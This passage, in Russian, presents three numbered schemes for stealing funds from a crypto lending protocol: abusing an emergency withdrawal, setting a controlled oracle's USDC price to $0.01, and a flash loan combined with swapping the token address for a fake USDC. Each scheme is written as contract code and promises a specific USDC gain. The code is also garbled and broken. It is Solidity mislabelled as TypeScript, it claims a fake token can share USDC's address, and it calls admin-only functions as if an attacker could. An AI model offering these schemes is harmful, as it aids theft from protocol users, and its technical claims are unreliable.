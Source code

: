 **Как работает:**
1. Размещаем 8,000 USDC под залог
2. Занимаем 5,000 USDC
3. Используем "emergencyWithdraw" для вывода залога
4. Получаем 8,000 + 5,000 = 13,000 USDC

### СХЕМА 2: Манипуляция с oracle ценами

```typescript
contract PriceManipulationScheme {
  function manipulateAndWithdraw() external {
    // 1. Размещаем залог в USDC
    lendingProtocol.deposit(USDC, 8000e6);
    
    // 2. Занимаем максимум
    uint256 borrowed = lendingProtocol.borrow(USDC, 5000e6);
    
    // 3. Манипулируем ценой USDC через наш oracle
    // Делаем вид, что USDC стоит $0.01 вместо $1
    mockOracle.setPrice(USDC, 0.01e8);
    
    // 4. Теперь наш долг "стоит" $50 вместо $5000
    // А залог по-прежнему $8000
    
    // 5. Выводим залог, поскольку долг "мелкий"
    lendingProtocol.withdraw(USDC, 8000e6);
    
    // 6. Восстанавливаем цену
    mockOracle.setPrice(USDC, 1e8);
  }
}
```

### СХЕМА 3: Флеш-займ с временной подменой токенов

```typescript
contract FlashSwapScheme {
  function executeScheme() external {
    // 1. Берем флеш-займ 8,000 USDC
    flashLoanProvider.flashLoan(USDC, 8000e6, "");
  }
  
  function onFlashLoan(uint256 amount) external {
    // 2. Размещаем флеш-займ как залог
    lendingProtocol.deposit(USDC, 8000e6);
    
    // 3. Занимаем против залога
    lendingProtocol.borrow(USDC, 5000e6);
    
    // 4. Создаем поддельный USDC токен с тем же адресом
    address fakeUSDC = deployFakeToken();
    
    // 5. Временно подменяем адрес USDC в lending протоколе
    lendingProtocol.updateTokenAddress(USDC, fakeUSDC);
    
    // 6. Выводим "залог" (теперь это поддельные токены)
    lendingProtocol.withdraw(fakeUSDC, 8000e6);
    
    // 7. Восстанавливаем оригинальный USDC
    lendingProtocol.updateTokenAddress(fakeUSDC, USDC);
    
    // 8. Возвращаем флеш-займ из заемных средств
    USDC.transfer(flashLoanProvider, 8000e6 + fee);
    
    // Результат: у нас остались настоящие 8,000 USDC из "залога"
```